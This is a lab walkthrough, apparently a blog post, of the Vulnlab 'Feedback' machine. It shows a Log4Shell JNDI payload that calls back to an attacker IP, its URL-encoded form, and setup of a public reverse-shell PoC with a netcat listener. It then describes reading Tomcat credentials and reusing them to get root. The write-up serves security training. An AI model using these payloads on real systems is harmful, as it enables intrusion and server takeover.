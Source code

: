 ```yaml
---
title: "Vulnlab - Feedback Walkthrough"
date: 2025-01-19
draft: false
#summary: "This is my first post on my site"
tags: ["Vulnlab", "Linux"]
---
```


## Port Scanning

An initial Rustscan scan reveals:

```bash
rustscan -a feedback.vl --ulimit 5000 --
```

![](Feed-Rustscan.png)

Two ports are reported as open - SSH and port 8080 (likely a web server). A more detailed Nmap scan shows the following information:

```bash
nmap -Pn -p22,8080 -A -T4 feedback.vl
```

![](Feed-Nmap.png)

SSH is running OpenSSH 7.6p1 - not likely the initial foothold but good to remember. The other open port appears to be an Apache Tomcat server running version 9.0.56.

## Web Enumeration

Navigating to the web page returns an Apache Tomcat default installation page:

![](Feed-Tomcat.png)
Attempting to enter default creds to access the Manager App results in a 401 Unauthorized before reaching the login panel:

![](Feed-403.png)
Attempting to bypass this via Header Injection such as using `X-Forwarded-For` and the value of `localhost` or `127.0.0.1` proves unsuccessful. 

Performing a directory busting scan via `dirsearch` results in some potentially interesting directories being found:

```bash
dirsearch -u http://feedback.vl:8080/ -x 403,400,500,401,404
```

![](Feed-Dirsearch.png)
A couple of ones stand out:

- docs - could contain interesting documentation
- examples - could be default stuff in here
- feedback - a page to submit feedback potentially

Navigating to `/docs` reveals some standard Apache Tomcat documentation - nothing interesting. However, it does disclose the specific version and its release date:

![](Feed-TomcatVersion.png)
The `/examples` directory, again, contains what appears to be standard Apache Tomcat examples for servlets, JSP and websockets:

![](Feed-Examples.png)
Finally, the `/feedback` page includes a lot more interesting content:

![](Feed-Back.png)
It includes an input field for a name and specific feedback. Entering some information and hitting `Send` redirects to a page stating the request has been logged:

![](Feed-Logged.png)
Take note of the URL being sent - it appears to contain a JSESSIONID cookie which could be interesting. Checking the Network tab after sending feedback does not show any interesting files:

![](Feed-LogFeedback.png)
Analysing the "Sources" tab for any interesting files as well results in an interesting comment on the `/feedback` page:

![](Feed-Log4J.png)
It appears to be running Log4J.

## Log4J Simple PoC

To test if it is indeed vulnerable, a simple PoC can be sent via the feedback form which is as follows:

```java
${jndi:ldap://10.8.4.237:4444/a}
```

When Log4J processes this string, it identifies the expression and initiates a JNDI lookup to the provided LDAP server. The LDAP server then responds with a specially crafted payload in the normal attack, but this will just be a PoC to see if it can communicate with our machine.

To test, run a Netcat listener (`nc -nvlp 4444`) and send the payload through both the feedback and name options:

![](Feed-LogPayloads.png)
Unfortunately, no connection is made on the Netcat listener. One possible cause is the special characters being escaped since it is being sent by a browser. Trying to use a fully URL encoded payload such as:

```bash
%24%7B%6A%6E%64%69%3A%6C%64%61%70%3A%2F%2F%31%30%2E%38%2E%34%2E%32%33%37%3A%34%34%34%34%2F%61%7D
```

![](Feed-Encoded.png)
After sending it through a proxy like Caido, the Netcat listener catches a connection:

![](Feed-NetCat.png)

## Log4J Exploitation

With confirmation that it can now connect back to the attacker machine successfully, it can potentially be exploited. Further research revealed a [GitHub repository](https://github.com/kozmer/log4j-shell-poc) that contains a reverse shell PoC.

After cloning the repository, the requirements must be installed in a Python virtual environment. To start a virtual environment:

```bash
python -m venv venv
source venv/bin/activate.fish # for fish shell only
```

![](Feed-ActivateFish.png)
Afterwards, install the requirements via `pip`:

```bash
pip install -r requirements.txt
```

![](Feed-Pip-Install.png)
Before running the exploit, there must be an extracted Java archive present in the same directory named `jdk1.8.0_20`.  Download the `8u21` version from [Oracle](https://javadl.oracle.com/webapps/download/GetFile/1.8.0_261-b12/a4634525489241b9a9e1aa73d9e118e6/linux-i586/jdk-8u261-linux-x64.tar.gz) (direct download link) titled `jdk-8u261-linux-x64.tar.gz` and extract it.

Once done, modify the `poc.py` file and edit every line that says `jdk1.8.0_20` to `jdk1.8.0_261`:

![](Feed-JDK.png)
Afterwards, run the script and check what options it requires:

![](Feed-Usage.png)
It requires the user IP (attacker IP), web port (attacker listening port) and lport (netcat port):

```bash
python3 poc.py --userip 10.8.4.237 --webport 8000 --lport 443
```


![](Feed-Setup.png)
Then, a Netcat listener must be set up to catch the reverse shell:

```bash
nc -nvlp 443
```

Finally, send the full URL encoded payload specified in the same input field as before (name) and check the Netcat connection:


![](Feed-RevShell.png)

## Post Exploitation

Checking out the `/home` directory, there is only an `ubuntu` user but no flag is present:


![](Feed-Ubuntu.png)
As precaution, LinPEAS can be transferred over and ran while manual enumeration takes place. 

While LinPEAS runs, enumeration can be done manually. When the shell popped, it provided a shell under the `/opt/tomcat` directory. Checking the `conf` directory for any interesting configuration files results in the following:


![](Feed-Tomcatusers.png)
There are some interesting files, including a potential users XML file. Checking back on LinPEAS, it also found this file:


![](Feed-Users.png)
Checking the contents reveals a potential username and password:


![](Feed-PassesBlur.png)
It reveals two users with the same password which could indicate password reuse:

- admin
- robot

Attempting to login as the ubuntu user with the password results in a failure:

![](Feed-NoUbuntu.png)
The robot user does not exist as can be seen in the `/etc/passwd` file:

![](Feed-Passwd.png)
Since the password was reused and is used by an `admin` user, it may be reused as root's password. Checking this appears to be the case:

![](Feed-RootUserBlur.png)




